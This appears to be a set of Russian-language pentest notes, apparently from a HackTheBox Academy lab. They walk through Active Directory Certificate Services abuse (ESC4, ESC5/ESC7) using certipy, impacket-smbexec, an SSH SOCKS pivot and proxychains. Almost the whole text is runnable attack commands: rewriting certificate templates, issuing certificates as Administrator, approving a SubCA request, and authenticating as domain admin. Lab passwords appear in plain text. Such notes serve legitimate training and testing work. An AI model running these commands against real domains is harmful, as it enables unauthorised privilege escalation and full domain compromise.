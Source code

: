 		export KRB5CCNAME=administrator.ccache
		
		impacket-smbexec -k -no-pass LAB-DC.LAB.LOCAL

		certipy-ad auth -pfx sql.pfx
  
*** ESC4 - возможность изменить шаблон сертификата чтобы использовать его как ESC1
			
   		certipy find -u 'blwasp@lab.local' -p 'Password123!' -dc-ip 10.129.205.199 -vulnerable -stdout
	 	certipy template -u 'BlWasp@lab.local' -p 'Password123!' -template ESC4 -save-old		(меняем в шаблоне все мешающие флаги)
		certipy req -u 'BlWasp@lab.local' -p 'Password123!' -ca lab-LAB-DC-CA -template ESC4 -upn Administrator
  		certipy auth -pfx administrator.pfx -username Administrator -domain lab.local
		certipy template -u 'BlWasp@lab.local' -p 'Password123!' -template ESC4 -configuration ESC4.json 	(вернем шаблон обратно)

*** ESC5	Чтобы злоупотреблять ESC5, нам необходимо иметь права на учетную запись, которая имеет привилегии на объекты AD- local ADMINISTRATOR ADCS, включая (но не ограничиваясь ими):

    Компьютерный объект AD сервера CA - Администратор локальный  (т. е. компрометация через S4U2self или S4U2proxy).
    Сервер RPC /DCOM сервера CA.
    Любой дочерний объект AD или контейнер в контейнере CN=Public Key Services,CN=Services,CN=Configuration,DC=<COMPANY>,DC=<COM> (например, контейнер шаблонов сертификатов, контейнер центров сертификации, объект NTAuthCertificates, контейнер Служб регистрации и т.д.

	Certipy не указывает, что пользователи группы локальных администраторов имеют повышенные права на сервер ADCS. 
 
 Однако, как локальные администраторы, мы можем злоупотреблять ESC4, ESC7

	ssh -N -f -D 1080 htb-student@10.129.205.205   HTB_@cademy_stdnt!

	proxychains -q netexec smb 172.16.19.3-5 -u cken -p Superman001
	proxychains -q certipy-ad find -u cken -p Superman001 -dc-ip 172.16.19.3 -vulnerable -stdout -ns 172.16.19.3 -dns-tcp

	Запросить сертификат SubCa от имени администратора домена 
	proxychains -q certipy-ad req -u cken -p Superman001 -dc-ip 172.16.19.3 -ns 172.16.19.3 -dns-tcp -target-ip 172.16.19.5 -ca lab-WS01-CA -template SubCA -upn Administrator

	Wrote private key to '13.key'

	утверждаем предыдущий запрос
	proxychains -q certipy-ad ca -u cken -p Superman001 -dc-ip 172.16.19.3 -ns 172.16.19.3 -dns-tcp -target-ip 172.16.19.5 -ca lab-WS01-CA -issue-request 13

	Извлеките сертификат выпуска
	proxychains -q certipy-ad req -u cken -p Superman001 -dc-ip 172.16.19.3 -ns 172.16.19.3 -dns-tcp -target-ip 172.16.19.5 -ca lab-WS01-CA -retrieve 13

	proxychains -q certipy-ad auth -pfx administrator.pfx -username administrator -domain lab.local -dc-ip 172.16.19.3 -ns 172.16.19.3 -dns-tcp

	Аутентификация с помощью сертификата администратора 
	proxychains4 -q certipy auth -pfx administrator.pfx -username administrator -domain lab.local -dc-ip 172.16.19.3 -ns 172.16.19.3 -dns-tcp
